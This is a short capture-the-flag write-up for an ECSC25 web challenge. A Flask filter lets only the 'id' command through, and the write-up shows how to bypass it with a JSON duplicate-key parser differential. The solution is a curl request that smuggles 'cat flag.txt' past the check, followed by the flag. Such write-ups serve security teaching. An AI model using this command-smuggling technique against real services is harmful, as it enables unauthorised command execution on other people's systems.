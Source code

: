 # Yet Another WAF

> You can't hack me if you can only call "id", right?
>
> [runner.7z](https://hack.cert.pl/files/runner-7fe7948b7ee8f1b9088f88972c7cd6ce6dbd79d6.7z)
>
> [https://yaw.ecsc25.hack.cert.pl/](https://yaw.ecsc25.hack.cert.pl/)
>
> **app.py**
> ```py
> import json
> import requests
> from flask import Flask, request, abort
> 
> app = Flask(__name__)
> 
> 
> @app.route('/run', methods=['POST'])
> def run():
>     payload = json.loads(request.data)
>     if 'cmd' in payload:
>         command = payload['cmd']
>         if command != 'id':
>             abort(403)
>         else:
>             payload = f'{{"content":{request.data.decode()}}}'
>             print(payload)
>             r = requests.post("http://runner/api/run", headers={"Content-Type": "application/json"}, data=payload)
>             return r.content
>     else:
>         abort(404)
> 
> 
> @app.get("/")
> def index():
>     return "You can't connect to this API with your browser. Check the source code."
> 
> 
> if __name__ == "__main__":
>     app.run(port=5000)
> ```

## Solution
Seeing how the Python app happily parses the JSON body and then forwards unparsed JSON to some other app, it can be easily guessed that the challenge is about parser differentials. The solution is simply:

```sh
$ curl -X POST https://yaw.ecsc25.hack.cert.pl/run -H 'Content-type: application/json' -d '{"cmd": "cat flag.txt", "cmd": "id"}'
```

## Flag
`ecsc25{names_within_an_object_SHOULD_be_unique}`
